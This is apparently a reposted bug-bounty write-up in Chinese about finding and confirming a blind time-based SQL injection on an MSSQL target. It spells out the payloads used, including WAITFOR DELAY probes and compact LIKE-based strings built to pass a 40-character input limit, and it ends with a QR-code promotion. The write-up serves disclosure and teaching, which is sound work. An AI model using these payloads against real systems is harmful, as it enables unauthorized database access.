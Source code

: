 #  一次h1漏洞提交记录   
点击关注👉  马哥网络安全   2024-05-04 17:00  
  
在某目标上触发单引号报错，发现疑似注入点：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnEQBTNKb4iavicxLoz0NYOfXITF4YsdTqNTQmt9rWicMb29T3sl2hiaQUnDW3nSP35pEp9Jx4lNvWiboQ/640?wx_fmt=png&from=appmsg "")  
  
有报错回显，一般自然想到使用报错注入，而且根据回显内容判断后端数据库显然是 mssql 数据库。  
  
使用基础的报错语句尝试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnEQBTNKb4iavicxLoz0NYOfXDsTWNrVoOiaAYsfXhDDU2CNibP3Q2thAtibicKpWJjfWDo4tNAwyiaZ95Hw/640?wx_fmt=png&from=appmsg "")  
  
发现没报错，且输出了格式不对的提示，那就很奇怪了。用基础语法 X'OR'1'='1 再次尝试，返回结果直接报语法错误：  
```
Incorrect syntax near the keyword 'OR'
```  
  
结合之前的错误提示，不难有两个猜测，第一个是对输入格式有要求，后端会按照固定格式进行处理，再插入查询语句中，第二个就是该 SQL 查询不是正常的查询语句，可能是在什么存储过程或者自定义函数或者复杂SQL查询里，导致使用正常查询语句但出现语法错误。  
  
经过尝试，第一个猜测不成立:  
```
XXXXX-XXX-XXX0'OR'1'='1 返回 Incorrect syntax near the keyword 'OR'
X'OR'1'='1 返回 Incorrect syntax near the keyword 'OR'
```  
  
说明语句都被带入到了SQL查询中，且均报出是语法错误。  
  
所以只可能是第二种猜测，在第二种猜测中，无论是什么原因导致正常查询语句报错，都需闭合单引号。将单引号插入原本语句中的方法已经试过了，程序报错。尝试注释：  
```
X'+or+1=convert(int,@@version)-- 返回 Invalid format
X'+or+1=1-- 返回 Invalid format
```  
  
程序倒是不报错了，但无论输入什么，都一直返回 Invalid format ，非常之奇怪。  
  
经过不断的尝试，发现还有一种闭合单引号思路，就是原生方法中存在单引号，刚好能闭合最后一个单引号，这个方法最典型的就是 waitfor delay '0:0:2'，也属于插入原本语句的利用方式。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnEQBTNKb4iavicxLoz0NYOfXZjqjkib13vzRu7aUEpUtjXYvWHbxx6ZP0wVAiclLjicib1LAGXxTb6XJlg/640?wx_fmt=png&from=appmsg "")  
  
最终延时成功。证明即可，漏洞提交之。  
  
过了几天，漏洞有了反馈，需要更多信息。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnEQBTNKb4iavicxLoz0NYOfXr1a1knIa2Hgp8p66Es6QSiaiczlPhL8Lv4Y0453xuEaLjicKlY3Dsr7Nw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnEQBTNKb4iavicxLoz0NYOfX4PGquch9JJRAP1LOsGFtDXIdpzjgxhAMPEftBP2ApE9bdibXXVh2s2A/640?wx_fmt=png&from=appmsg "")  
  
得了，继续折腾。  
  
确定使用延时盲注可行，就使用延时盲注的方法  
```
'if(len(db_name()))<100 WAITFOR DELAY '0:0:2  不延时
'if(len(user))<100 WAITFOR DELAY '0:0:2 延时
```  
  
又遇到了新问题，经过多次测试之后，发现貌似有长度限制  
```
X'if(len(USER))<100000000+WAITFOR+DELAY+'0:0:2 不延时
```  
  
发送上述请求，确定了有长度限制，最终确定为 40 字符限制。那就很难办了，WAITFOR+DELAY+'0:0:2 就占用了 20 个字符，只有 20 个字符的发挥空间，就不能使用常规的 SUBSTRING 和 ASCII 。  
  
这时想到可以用 LIKE 替换，且 IF 方法可以用空格代替括号，这样又可以减少一位占用。  
```
'if+len(user)=13+waitfor+delay'0:0:2 延时
```  
  
用户名是13位。  
```
'if+user+like'i%25'waitfor+delay'0:0:2 延时
```  
  
之后就可以用 burp 分别爆破每位，不断替换百分号的位置。但过程中还是有小问题，因为用户名是13位，所以肯定无法全部展示，这时可以用 % 分别代表前半部分和后半部分位置，如  
```
'if+user+like'is%25'waitfor+delay'0:0:2 延时
'if+user+like'%25user'waitfor+delay'0:0:2 延时
```  
  
通过上述操作就可以把 dbuser 跑出来：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnEQBTNKb4iavicxLoz0NYOfXltWyv7CqibTibiaDFyh7G7yZMRWeS5QsuibqbJqApUnviaWyYEsiaaYN97kw/640?wx_fmt=png&from=appmsg "")  
  
最终漏洞也得到了确认  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnEQBTNKb4iavicxLoz0NYOfXRGJVEdGA8SMB3BFOJ9d2Mm4J3fLhoOiawCibtAYZicGbicicibaeNJOsSxWA/640?wx_fmt=png&from=appmsg "")  
  
至于为什么不跑其他的数据库版本、数据库名，像 version()  
 和 db_name()  
 这类自身占用的字符就太多了，肯定超过 40 字符。同样，因为字符限制，实际利用，取具体数据也无法实现，算是鸡肋漏洞。（当然也可能是我太菜了，无法利用成功）  
```
文章来源：先知社区（九五二七）
原文地址：https://xz.aliyun.com/t/13755
```  
  
  
  
  
我为大家整理了一份从入门到进阶的网络安全学习资料包，包含网安书籍、网安导图、网安工具等等，扫描下方二维码，备注  
【安全】  
免费领取  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnEQBTNKb4iavicxLoz0NYOfXr95aRTFyejGl60zEtJicMOB4rYVM6lWdib6f8qJUNIFIj9oic4jYUn9Bw/640?wx_fmt=png&from=appmsg "")  
  
  
